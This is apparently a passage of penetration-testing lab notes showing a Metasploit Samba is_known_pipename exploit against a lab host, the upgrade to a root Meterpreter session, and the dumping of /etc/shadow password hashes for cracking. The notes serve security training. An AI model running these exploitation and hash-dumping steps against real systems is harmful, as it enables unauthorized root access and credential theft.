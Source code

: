 ```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
options
run
```

```bash
pwd
	/tmp
```

```bash
# CTRL + Z to background the shell
sessions
```

* Upgrade the `shell cmd/unix` sessions to a `Meterpreter` session

```bash
sessions -u 1
sessions 2

meterpreter > sysinfo
	Computer     : 192.156.158.3
	OS           : Debian 8.11 (Linux 5.4.0-190-generic)
	Architecture : x64
	BuildTuple   : i486-linux-musl
	Meterpreter  : x86/linux
	
meterpreter > getuid
	Server username: uid=0, gid=0, euid=0, egid=0
	# "root" user Meterpreter session
```

* Linux user account hashes can be dumped using the privileged `root` user.
* Terminate the shell session and background the meterpreter session.

### Hashdump <a href="#hashdump" id="hashdump"></a>

> 📌 Linux password hashes are stored in the **`/etc/shadow`** file, accessible **only by a user with root privileges**.
>
> * In newer Linux, the hashed passwords are stored in the `/etc/shadow` file. In turn, the hashed password field in the `/etc/passwd` file is filled with the `x` character. `/etc/passwd` is readable by all the users.
> * Linux users' passphrases are hashed using the [crypt](https://manpages.debian.org/unstable/libcrypt-dev/crypt.5.en.html) function. The hashed passphrase follows a specific format: **`$id$salt$hashedpassword`**
> * [Methods Used by Linux for Hashing Passwords](https://www.baeldung.com/linux/hashing-methods-password)

* `post/linux/gather/hashdump` module need to be run manually to dump the user account hashes and unshadow them
  * A hash can be cracked (with `John the Ripper`) or stored for later use
